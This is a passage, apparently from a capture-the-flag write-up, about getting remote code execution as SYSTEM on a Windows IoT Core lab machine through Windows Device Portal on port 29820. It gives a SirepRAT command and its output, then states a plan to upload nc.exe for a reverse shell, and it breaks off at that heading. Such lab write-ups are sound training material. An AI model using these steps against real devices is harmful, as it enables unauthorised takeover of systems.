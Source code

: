 ## Exploit for port 29820
- While enumerating we found that it is running Windows Device Portal
- There is an exploit for RCE as System on Windows IOT core.
- https://github.com/SafeBreach-Labs/SirepRAT : Link to exploit. The examples explain the usage.

### Checking Remote Code Execution

- To check if the exploit works
```bash
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 6, payload peek: 'b'omni\r\n''>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: 'b'\x00\x00\x00\x00''>
```
- `omni` in the output tells us that remote code execution is possible.
- We can use this to upload `nc.exe` and get a reverse shell.


### Uploading the Reverse Shell

